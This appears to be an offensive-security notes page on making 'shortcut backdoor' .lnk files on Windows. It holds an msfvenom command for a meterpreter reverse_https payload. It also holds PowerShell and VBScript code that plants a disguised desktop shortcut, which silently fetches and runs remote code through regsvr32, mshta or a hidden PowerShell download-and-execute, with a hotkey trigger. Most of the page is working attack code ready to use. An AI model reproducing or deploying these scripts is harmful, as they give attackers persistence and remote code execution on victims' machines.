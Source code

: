 # Shortcut Link

## 01 - Usage

### 1.1 - Create shortcut backdoor in powershell

Note: The **TargetPath** has a limit of 260 characters long

If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > shell.ps1
```

`$ cat pwsh_cmds.txt`

---

TODO: Remove timestamps in the .lnk file

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/file.sct scrobj.dll'
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = '/c http://<IP>/file.hta'
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

### 1.2 - Create shortcut backdoor in VBScript

`$ cat lnkbackdoor.vbs`

---

```vbscript
Set objWS = WScript.CreateObject("WScript.Shell")
user = objWS.ExpandEnvironmentStrings("%UserName%")
strLinkFile = "C:\Users\" & user & "\Desktop\mal.lnk"
strTargetPath = "C:\Windows\System32\cmd.exe"
Set objLink = objWS.CreateShortcut(strLinkFile)

objLink.TargetPath = strTargetPath
objLink.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<IP>:<PORT>/shell.ps1'))"""
objLink.Description = "A shortcut backdoor"
' objLink.HotKey = "CTRL+C"
objLink.IconLocation = "shell32.dll,21"
objLink.WindowStyle = "7"
objLink.WorkingDirectory = "C:\Users\" & user & "\Public"
objLink.Save
```

`C:\> cscript //Nologo //B lnkbackdoor.vbs`

## 02 - Use Cases

TODO: Provide use cases if any

---
## References

- [SS64 Shortcut](https://ss64.com/nt/shortcut.html)

- [Shellgeek: Create Shortcuts on User Desktop Using Powershell](https://shellgeek.com/create-shortcuts-on-user-desktop-using-powershell/)

- [Hull1.com: Customize Shortcut Icon](https://www.hull1.com/scriptit/2020/08/15/customize-shortcut-icon.html)

- [Simontimms: Creating a Shortcut](https://blog.simontimms.com/2021/05/10/creating-a-shortcut/)

- [Uperesia Booby Trapped Shortcut](https://www.uperesia.com/booby-trapped-shortcut)

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

- [Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/

- [Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [Create Shortcut Using VBScript](https://think.unblog.ch/en/create-shortcut-using-vbscript/)

- [Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)